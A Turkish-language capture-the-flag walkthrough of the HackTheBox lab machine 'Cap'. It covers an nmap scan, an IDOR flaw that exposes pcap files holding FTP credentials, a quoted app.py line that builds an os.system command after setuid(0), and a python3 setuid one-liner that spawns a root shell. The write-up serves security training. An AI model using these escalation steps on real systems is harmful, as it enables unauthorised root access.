

<h1 align="center">
  <a href="https://www.hackthebox.eu/home/machines/profile/190"></a>
  <br><br>HackTheBox - Cap
</h1>

<table align="center">
    <thead>
        <tr>
            <th>Makine Adı</th>
            <th>İşletim Sistemi</th>
            <th>Zorluk Derecesi</th>
            <th>Yayın Tarihi</th>
            <th>Geliştirici</th>
            <th>İlk Kan (user)</th>
            <th>İlk Kan (root)</th>
        </tr>
        <tr>
            <td>Cap</td>
            <td>Linux</td>
            <td>Kolay</td>
            <td>05/06/2021</td>
            <td><a href="https://app.hackthebox.com/users/52045">InfoSecJack</a></td>
            <td><a href="https://app.hackthebox.com/users/139466">szymex73</a></td>
            <td><a href="https://app.hackthebox.com/users/139466">szymex73</a></td>
        </tr>
    </thead>
</table><br>

Web uygulamasında bulunan IDOR zafiyetinden yola çıkarak elde ettiğimiz pcap dosyalarından FTP kullanıcı bilgilerini çıkaracak ve bu bilgileri kullanarak SSH servisine bağlanacağız. Daha sonra python'un setuid yeteneğinden yararlanarak root yetkisine erişeceğiz.

Öncelikle hangi servislerin ayakta olduğunu ve bu servislerin hangi portta çalıştığını öğrenmek için bir nmap taraması gerçekleştirelim.

```markdown
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-17 08:31 EDT                                                                                                                           
Nmap scan report for 10.10.10.245                                                                                                                                                            
Host is up (0.15s latency).                                                                                                                                                                  
Not shown: 997 closed tcp ports (reset)                                                                                                                                                      
PORT   STATE SERVICE VERSION                                                                                                                                                                 
>21/tcp open  ftp     vsftpd 3.0.3                                                                                                                                                            
>22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)                                                                                                            
| ssh-hostkey:                                                                                                                                                                               
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)                                                                                                                               
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)                                                                                                                              
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)                                                                                                                            
>80/tcp open  http    gunicorn                                                                                                                                                                
|_http-title: Security Dashboard                                                                                                                                                             
|_http-server-header: gunicorn
```

Makinenin 21, 22 ve 80 portlarının açık olduğunu öğrendik. Script taraması yapmasınıda sağladığım için anonim giriş özelliğinin kapalı olduğunu biliyorum. HTTP servisi üzerindeki uygulamadan devam edelim.


Bir yönetim paneli bizi karşılıyor. Nathan adında bir kullanıcıya sahibiz ve çerezler belirtilmemiş. Uygulamada sadece üç adet sayfa bulunuyor. İşimize yaramayacak sayfalardan birinde “ifconfig” komutundan dönen sonuç diğerinde ise “netstat” komutundan dönen sonuçlar barınıyor Üçüncü sayfada ise bir takım bilgiler veren bir tablo ve indirme butonu bulunuyor.


Bu sayfada ilgimi çeken şey url adresinde ve butona tıkladığımızda yönlendiren sayfalar oldu. Örneğin url adresine baktığımızda /data/12 şeklinde bir dizin yapısı olduğunu görüyoruz. 12 yerine 0–14 arası sayıları girdiğimizde, numaralara ait sayfaları görüntülüyor. Aynı şekilde “Download” butonuda “/download/12” dizin yapısını kullanıyor. Kolay olması açısından download dizin yapısını kullanarak 0 da dahil olmak üzere 14 dosyayıda indirdim. Siz sırasıyla indirip inceleyebilirsizin. Ben daha sonra bu dosyaları otomatik inceleyen bir program deneyeceğim için hepsini indirme gereği duydum.

0.pcap dosyasını wireshark yardımıyla inceledikten sonra bir FTP kullanıcı bilgisi buldum.



Kullanıcı bilgilerini kullanarak FTP servisine giriş yaptığımda ise /home/nathan dizininde olduğumu öğrendim. Dizin geçişleri açık ama dosya yazma yetkimiz yok.


user.txt dosyasındaki bayrağı aldıktan sonra aynı kullanıcı bilgileri ile SSH servisine bağlanmak istedim, çünkü makinede de aynı kullanıcı barınıyor.

SSH servisine bağlandıktan sonra sistemde dolaşmaya ve bir güvenlik sorunu aramaya başladım. Bir süre sonra web dizininde yani /var/www/html dizinindeki app.py dosyasının içerisinde aşağıdaki kod satırını gördüm.

```
command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""                                                                     
os.system(command)
```

Buradaki kod satırında kullanıcı ID’sini “0” yaptığını ve daha sonra komut çalıştırdığını görüyoruz. ID değerini "0" yaptığı için bu komutu root yetkisinde çalıştırabiliyor. Bu bilgiden yola çıkarak python3 dosyasına setuid yeteneğinin verildiğini tahmin edebiliriz.


Bizde kod satırındaki komutu biraz değiştirerek root haklarına sahip olmayı deneyelim.

```
python3 -c "import os; os.setuid(0); os.system('bash')"
```

Yukarıdaki “python -c” komutu python programlama dilindeki kodların komut satırı üzerinde çalıştırılmasını sağlıyor. Tırnak içerisindeki python kodları ise os modülünü import ediyor, modülü kullanarak kullanıcı ID’sini 0 olarak ayarlıyor ve daha sonra ID bilgisi sıfır olan root kullanıcısı adına “bash” komutunu çalıştırıyor. Böylece root haklarına sahip bir shell elde ediyoruz.


